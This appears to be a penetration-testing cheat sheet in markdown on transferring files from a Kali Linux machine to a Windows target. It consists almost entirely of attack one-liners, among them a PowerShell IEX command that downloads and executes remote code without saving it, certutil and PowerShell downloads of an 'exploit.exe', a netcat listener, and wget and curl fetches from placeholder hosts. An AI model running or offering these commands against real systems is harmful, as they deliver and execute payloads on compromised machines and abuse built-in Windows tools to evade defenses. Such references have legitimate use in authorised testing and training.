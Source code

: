 # Transfering files from Linux to Windows
## KALI
To Start a server using python

``
python -m SimpleHTTPServer 80
``

``
python -m http.server 80
``

## Powershell
``
powershell.exe (New-Object System.Net.WebClient).DownloadFile('URL', 'Outfile.exe')
``

Download and execute without saving 

``
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('URL')
``

## FTP
``
ftp -v -n -s:file.txt
``
## SMB
``
copy \linux_iP\PAth\to\file
``
## CertUtil
``
certutil.exe -urlcache -split -f "http://IP/exploit.exe"
``
## NetCat \ NC
``
nc -nlvp 4444 > outputfile.exe
``

## Wget
``
wget http://IP/exploit.exe
``

## Curl
``
curl http://IP/exploit.exe -o output.exe
``
